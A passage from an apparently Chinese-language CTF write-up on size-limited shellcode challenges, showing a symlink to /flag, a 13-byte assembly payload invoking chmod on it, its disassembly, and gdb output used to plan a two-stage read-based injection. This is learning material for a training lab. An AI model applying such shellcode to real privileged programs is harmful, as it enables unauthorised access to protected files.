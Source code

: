 利用这个特性, 就可以创建一个指向`/flag`文件的symbolic links, 它的名字长度就是可控的了. 我创建了一个叫`F`的链接文件来指向`/flag`
```
ln -s /flag F
```

那文件名就是`0x46, 0x00`, 利用小端存储的特性, 只需要将`0x46`push到栈中即可, 它的高位会被自动填充成0. 同时`push 0x46`命令只占2bytes.
```
.global _start
_start:
.intel_syntax noprefix
        push 0x46
        mov rdi, rsp
        mov si,4
        mov al, 90
        syscall
```

```
0000000000401000 <_start>:
  401000:       6a 46                   push   0x46
  401002:       48 89 e7                mov    rdi,rsp
  401005:       66 be 04 00             mov    si,0x4
  401009:       b0 5a                   mov    al,0x5a
  40100b:       0f 05                   syscall 
```
但是这样编译出来的shellcode的长度是13, 只能通过level 8 和 level 13, 对于level 14的6byte看起来是个不可能的任务, 但level 14与前面两个level的不同就是level 14对于shellcode没有写权限的控制, 那么我们其实可以通过两段式来注入shellcode.

两段式注入第一段是调用`read`, 从`/dev/stdin`中读取第二段shellcode, 写入到`rip`指向的地址, 从而让第二段shellcode能够执行.

所以需要在第一段中调用`read` syscall, 其中`syscall(0f05)`占2byte, 只剩4byte留给其他的操作. 这里没有好的思路, 就gdb来调试下level 14的可执行文件.

```
0x0000558881446733 <+460>:   mov    0x28e6(%rip),%rax        # 0x558881449020 <shellcode_mem>
0x000055888144673a <+467>:   mov    $0x6,%edx
0x000055888144673f <+472>:   mov    %rax,%rsi
0x0000558881446742 <+475>:   mov    $0x0,%edi
0x0000558881446747 <+480>:   callq  0x5588814461a0 <read@plt>
0x000055888144674c <+485>:   mov    %rax,0x28c5(%rip)        # 0x558881449018 <shellcode_size>
0x0000558881446753 <+492>:   mov    0x28be(%rip),%rax        # 0x558881449018 <shellcode_size>
0x000055888144675a <+499>:   test   %rax,%rax
0x000055888144675d <+502>:   jne    0x55888144677e <main+535>
0x000055888144675f <+504>:   lea    0xd46(%rip),%rcx        # 0x5588814474ac <__PRETTY_FUNCTION__.14866>
0x0000558881446766 <+511>:   mov    $0x55,%edx
0x000055888144676b <+516>:   lea    0xa53(%rip),%rsi        # 0x5588814471c5
0x0000558881446772 <+523>:   lea    0xcc6(%rip),%rdi        # 0x55888144743f
0x0000558881446779 <+530>:   callq  0x558881446170 <__assert_fail@plt>
0x000055888144677e <+535>:   lea    0xcd3(%rip),%rdi        # 0x558881447458
0x0000558881446785 <+542>:   callq  0x558881446120 <puts@plt>
0x000055888144678a <+547>:   mov    0x2887(%rip),%rdx        # 0x558881449018 <shellcode_size>
0x0000558881446791 <+554>:   mov    0x2888(%rip),%rax        # 0x558881449020 <shellcode_mem>
0x0000558881446798 <+561>:   mov    %rdx,%rsi
0x000055888144679b <+564>:   mov    %rax,%rdi
0x000055888144679e <+567>:   callq  0x5588814462c9 <print_disassembly>
0x00005588814467a3 <+572>:   lea    0xceb(%rip),%rdi        # 0x558881447495
0x00005588814467aa <+579>:   callq  0x558881446120 <puts@plt>
0x00005588814467af <+584>:   lea    0xce0(%rip),%rdi        # 0x558881447496
0x00005588814467b6 <+591>:   callq  0x558881446120 <puts@plt>
0x00005588814467bb <+596>:   mov    0x285e(%rip),%rax        # 0x558881449020 <shellcode_mem>
0x00005588814467c2 <+603>:   mov    %rax,%rdx
0x00005588814467c5 <+606>:   mov    $0x0,%eax
0x00005588814467ca <+611>:   callq  *%rdx
0x00005588814467cc <+613>:   mov    $0x0,%eax
0x00005588814467d1 <+618>:   leaveq 
0x00005588814467d2 <+619>:   retq 
```